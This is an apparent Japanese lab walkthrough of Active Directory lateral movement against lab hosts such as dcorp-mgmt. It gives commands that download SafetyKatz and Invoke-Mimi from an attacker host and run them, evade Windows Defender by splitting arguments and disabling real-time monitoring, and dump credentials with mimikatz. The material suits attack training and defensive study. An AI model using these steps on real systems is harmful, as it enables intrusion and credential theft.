 ## 悪用(winrs)
列挙した結果から***winrs***や***PowerShell Remoting***を使ってこれを悪用することができる。

1. dcorp-mgmtサーバ上でコマンドを実行できるか、winrmポートが開いているかを確認する。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> winrs -r:dcorp-mgmt cmd /c "set computername && set username" 
 
COMPUTERNAME=DCORP-MGMT 
USERNAME=ciadmin 
```

---
2. dcorp-mgmtにLoader.exeをコピーする必要がある。(SafetyKatz.exeをやるため)
dcorp-mgmでSafetyKatz.exeを実行して、クレデンシャルを抽出する。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe 

PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/SafetyKatz.exe -OutFile C:\Users\Public\SafetyKatz.exe 
```

---
3. Loader.exeをdcrp-mgmtにコピーする
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe 
 
Does \\dcorp-mgmt\C$\Users\Public\Loader.exe specify a file name 
or directory name on the target 
(F = file, D = directory)? F 
C:\Users\Public\Loader.exe 
1 File(s) copied
```
---
4. dcorp-mgm上の検出を避けるため、ポートフォワーディングする。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
- $null変数を使用する理由は。出力リダイレクトに対処するため。
- connectaddressには自分自身のIPを記載する。

---
5. ArgSplit.batの実行
Windows Defenderは、Loaderを使用した場合でもSafetKatzの実行を検知してしまうことに注意が必要。
それを避けるためにLoaderにエンコードされた引数を渡す。
```
C:\AD\Tools>ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: sekurlsa::ekeys
set "z=s" 
set "y=y" 
set "x=e" 
set "w=k" 
set "v=e" 
set "u=:" 
set "t=:" 
set "s=a" 
set "r=s" 
set "q=l" 
set "p=r" 
set "o=u" 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 